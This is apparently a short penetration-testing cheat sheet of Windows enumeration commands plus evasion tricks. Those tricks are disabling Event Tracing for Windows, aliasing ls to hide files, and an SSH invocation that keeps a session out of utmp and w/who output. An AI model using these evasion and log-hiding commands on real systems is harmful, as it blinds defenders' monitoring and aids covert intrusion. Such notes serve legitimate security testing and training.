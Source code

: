 ## Bypassing Event Tracing for Windows (ETW)

```c
C:\> set COMPlus_ETWEnabled=0
```

## Check installed Applications

```c
PS C:\> wmic product get name,version
```

## Check open Ports

```c
PS C:\> netstat -ano | findstr "LISTENING" | findstr "<ID>"
```

## Check Process

```c
PS C:\> Get-Process -Name <PROCESS>
```

## Check running Services

```c
PS C:\> net start
```

## Get detailed Information about a Service

```c
PS C:\> wmic service where "name like '<SERVICE>'" get Name,PathName
PS C:\> wmic service | findstr "NAME"
```

## Hide Commands from Listing

```console
$ alias ls='ls -I <COMMAND>'
```

## Hide SSH Sessions

```c
$ ssh -o UserKnownHostsFile=/dev/null -T <USER>@<RHOST> 'bash -i'
```

- It is not added to `/var/log/utmp`
- It won't appear in the output of `w` or `who` commands
- No `.profile` or `.bash_profile` modification needed
